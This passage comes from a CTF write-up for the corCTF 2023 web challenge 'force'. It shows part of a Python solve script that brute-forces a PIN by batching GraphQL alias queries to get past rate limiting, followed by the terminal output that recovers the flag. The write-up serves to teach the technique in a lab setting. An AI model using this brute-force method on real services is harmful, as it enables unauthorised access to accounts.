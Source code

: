 ```python
            if isCorrectPin:
                print(f'\n[+] Found correct PIN number {key[4:]}, flag: {value}')
                exit()

if __name__ == '__main__':
    isLocal = True
    url = ''
    if isLocal:
        url = 'http://localhost/'

    assert url, '[-] Please provide the remote instance\'s URL'
    exploit = Exploit(url)

    # I tried 50000 queries at one time, but it'll response 
    # HTTP status code "413 Request body is too large"
    PIN_NUMBER_RANGE = 20000
    SECRET_MINIMUM_INTEGER = 0
    SECRET_MAXIMUM_INTEGER = 10 ** 5
    for pinNumber in range(SECRET_MINIMUM_INTEGER, SECRET_MAXIMUM_INTEGER):
        if pinNumber % PIN_NUMBER_RANGE != 0:
            continue

        startPinNumber = pinNumber
        endPinNumber = startPinNumber + PIN_NUMBER_RANGE
        print(f'[*] Trying PIN number between {startPinNumber} to {endPinNumber}', end='\r')
        exploit.bypassRateLimit(startPinNumber, endPinNumber)
```

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/force)-[2023.07.31|13:38:27(HKT)]
└> python3 solve.py
[*] Trying PIN number between 40000 to 60000
[+] Found correct PIN number 58114, flag: corctf{test}
```

**Nice! Let's spawn the remote instance and get the real flag!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731134158.png)

```python
if __name__ == '__main__':
    isLocal = False
    url = 'https://web-force-force-7b74f326dbf15733.be.ax/'
    if isLocal:
        url = 'http://localhost/'
    
```

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/force)-[2023.07.31|13:40:14(HKT)]
└> python3 solve.py
[*] Trying PIN number between 60000 to 80000
[+] Found correct PIN number 65571, flag: corctf{S                T                  O               N                   K                 S}
```

- **Flag: `corctf{S                T                  O               N                   K                 S}`**

## Conclusion

What we've learned:

1. Bypassing Rate Limit Via GraphQL's Aliases (Batching Query)